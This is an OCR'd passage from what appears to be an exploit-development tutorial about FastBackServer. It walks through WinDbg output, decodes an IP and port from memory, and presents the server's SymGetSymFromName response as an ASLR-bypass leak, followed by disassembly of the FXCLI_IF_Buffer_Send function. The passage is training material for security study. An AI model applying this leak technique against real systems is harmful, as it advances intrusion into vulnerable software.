 given that `in_addr` represents the IP address with each octet as a single byte, we can decipher the IP address.

```shell
0x7877a8c0 breaks down to:
c0 = 192
a8 = 168
77 = 119
78 = 120
```

you can also reverse the order of the `DWORD` and convert it to decimal to find the port number.

```shell
0:077> dd ebp-12550 L1
0dbad948 000020d0     ; Raw port value
0:077> ? d020
Evaluate expression: 53280 = 0000d020    ; Converted to decimal
```

to recap:

- we've resolved arbitrary function addresses via `SymGetSymFromName`.

- the address is formatted into a response buffer.

- the response was sent back over the existing network connection.

this provides a reliable ASLR bypass primitive! let's keep going.

you can verify the network connection by running `netstat -anbp tcp`.

```shell
# netstat output analysis
TCP 192.168.120.10:11406 0.0.0.0:0 LISTENING        # FastBackServer listening
TCP 192.168.120.10:11460 0.0.0.0:0 LISTENING        # Main service port
TCP 192.168.120.10:11460 192.168.119.120:53280 CLOSE_WAIT   # Our connection
```

so, there's a function that connects to the network. there must also be a function that sends data over the network. this next block focuses on the `FXCLI_IF_Buffer_Send` function.

```asm
00575D0F mov     edx, [ebp+var_12548]
00575D15 push    edx
00575D16 mov     eax, [ebp+var_C370]
00575D1C mov     ecx, [eax+8]
00575D1F push    ecx
00575D20 mov     edx, [ebp+var_C36C]
00575D26 push    edx
00575D27 mov     eax, _FXCLI_pcFileBuffer
00575D2C push    eax
00575D2D call    _FXCLI_IF_Buffer_Send    # Key sending function
00575D32 add     esp, 10h
00575D35 jmp     loc_575DD6
```

let's do some dynamic analysis on this function by single-stepping until the call to the function.
